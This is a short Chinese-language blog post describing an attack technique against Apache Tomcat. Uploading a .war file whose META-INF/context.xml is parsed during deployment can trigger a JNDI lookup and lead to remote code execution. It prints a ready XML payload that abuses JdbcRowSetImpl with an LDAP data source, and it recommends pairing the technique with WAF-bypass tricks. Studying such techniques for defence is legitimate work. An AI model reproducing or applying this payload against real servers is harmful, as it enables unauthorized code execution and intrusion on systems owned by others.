


# Tomcat上传.war触发JNDI

首发思路来自Firebasky

绝大多数时候上传.war不能触发解压(具体原因这里不提)，因此不能做到解压覆盖原项目文件实现RCE

同时在不能上传jsp文件时候该如何破局呢？

思路来自我之前的博客，具体原理在：[https://y4tacker.github.io/2022/02/03/year/2022/2/jsp%E6%96%B0webshell%E7%9A%84%E6%8E%A2%E7%B4%A2%E4%B9%8B%E6%97%85/#%E5%8F%91%E7%8E%B0](https://y4tacker.github.io/2022/02/03/year/2022/2/jsp新webshell的探索之旅/#发现)

简单来说tomcat在解析xml文档时能实例化类，并触发set方法调用

在org.apache.catalina.startup.HostConfig#deployWar方法中如果文件后缀为.war就尝试触发部署操作



在deployWAR中，在部署war之前的检查中，有对META-INF/context.xml判断文件是否存在

如果存在则触发解析



那么就可以配合我博客里提到的payload创建context.xml，写入payload压缩打包触发JNDI

```xml
<Context>
<!-- Default set of monitored resources. If one of these changes, the -->
<!-- web application will be reloaded. -->
<WatchedResource>web.xml</WatchedResource>
<Manager className="com.sun.rowset.JdbcRowSetImpl"
dataSourceName="ldap://127.0.0.1/test"
autoCommit="true"></Manager>
</Context>
```

Ps:配合[https://y4tacker.github.io/2022/06/19/year/2022/6/%E6%8E%A2%E5%AF%BBTomcat%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%B5%81%E9%87%8F%E5%B1%82%E9%9D%A2%E7%BB%95waf%E6%96%B0%E5%A7%BF%E5%8A%BF/](https://y4tacker.github.io/2022/06/19/year/2022/6/探寻Tomcat文件上传流量层面绕waf新姿势/)

绕waf效果更佳
